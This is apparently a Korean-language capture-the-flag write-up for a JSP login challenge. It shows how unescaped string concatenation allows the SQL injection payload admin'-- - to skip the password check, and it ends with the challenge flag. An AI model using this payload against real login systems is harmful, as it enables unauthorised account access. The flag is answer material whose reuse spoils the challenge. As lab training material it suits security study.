

# JSP - SQL Injection

## 문제 설명

`userid`, `userpw`를 입력받는 JSP 로그인 폼. `admin` 계정으로 로그인에 성공하면 flag가 노출된다.

## 분석

- 로그인 처리 로직이 입력값을 이스케이프나 `PreparedStatement` 바인딩 없이 쿼리 문자열에 그대로 이어붙이는 것으로 추정된다.

```sql
SELECT * FROM users WHERE userid='입력값' AND userpw='입력값'
```

- `userid` 필드에 SQL 주석(`--`)을 삽입하면, 뒤따르는 `AND userpw='...'` 조건 전체를 무효화할 수 있다.
- MySQL 계열에서는 `--` 뒤에 공백(또는 다른 문자)이 있어야 주석으로 인식되므로 `-- -` 형태로 마무리한다.

## 익스플로잇

### 페이로드

```
userid: admin'-- -
userpw: (아무 값)
```

쿼리가 다음과 같이 변형된다.

```sql
SELECT * FROM users WHERE userid='admin'-- -' AND userpw='...'
```

`-- -` 뒤의 내용이 전부 주석 처리되어 비밀번호 검증 없이 `userid='admin'` 조건만으로 로그인이 성공한다.

### flag 획득



## 플래그

```
flag{22cbc415eaef9472f80a}
```
